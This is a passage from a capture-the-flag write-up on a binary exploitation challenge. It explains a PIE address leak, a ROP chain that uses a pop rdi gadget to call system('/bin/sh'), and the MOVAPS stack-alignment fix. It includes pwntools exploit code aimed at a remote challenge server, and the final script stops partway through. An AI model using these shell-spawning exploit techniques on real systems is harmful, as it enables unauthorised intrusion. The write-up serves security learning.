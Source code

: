in x64 calling convention, the first argument to a function goes in the rdi register. Since we want to call system("/bin/sh"), we need to put the address of "/bin/sh" into rdi before calling system().

the pop rdi instruction takes our "/bin/sh" address from the stack and loads it into rdi, then ret continues to the next part of our chain.

there is no normal libc leak to run our own shell, but because there is already `system()` in the code, we can use that to our advantage and call it to run `system(/bin/sh)` instead

```python
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
binsh = next(elf.search(b"/bin/sh\x00"))
system_plt = elf.plt['system']

offset = 32
offset += 8 #rbp
payload = flat(
    b"A"*offset,
    pop_rdi,
    binsh,
    system_plt
)
```

now this works fine locally but not on the remote server. i spent an hour banging my head on the wall until i realised that there was a hidden issue - the MOVAPS error..??

there's a blogpost [here by Elma](https://pwn.elmo.sg/miscellaneous/movaps-issue.html) and [here by Fernweh](https://blog.wohin.me/posts/nus-greyhats-welcome-ctf-2021-wp-pwn/) that describes it, but there is a stack alignment issue. some x64 instructions (like MOVAPS) require the stack to be aligned to 16-byte boundaries, which are used when calling `system()`

this can be solved by simply adding a ret before running our rop chain.

the final solve script looks like this:
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')
context.log_level = 'debug'
elf = ELF('./chal')
# p = process('./chal')
p = remote('chal1.sieberr.live', 15001)

p.recvuntil(b"> ")
p.sendline(b"A"*32)

line = p.recvline()
print(line)
start = line.find(b"Very well, ") + len(b"Very well, ")
end = line.find(b". Now, let's see what you've got! \n", start)
leak = line[start:end]

addr_bytes = leak[32:]
leaked = u64(addr_bytes.ljust(8, b"\x00"))
# 0x5555555551b1 - gets shell
# 0x5aa2fae791b1 - remote
log.info(f"Leaked main() address: 0x{leaked:x}")
pie_base = leaked - elf.symbols.main
log.info(f"PIE base: {hex(pie_base)}")
elf.address = pie_base

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
```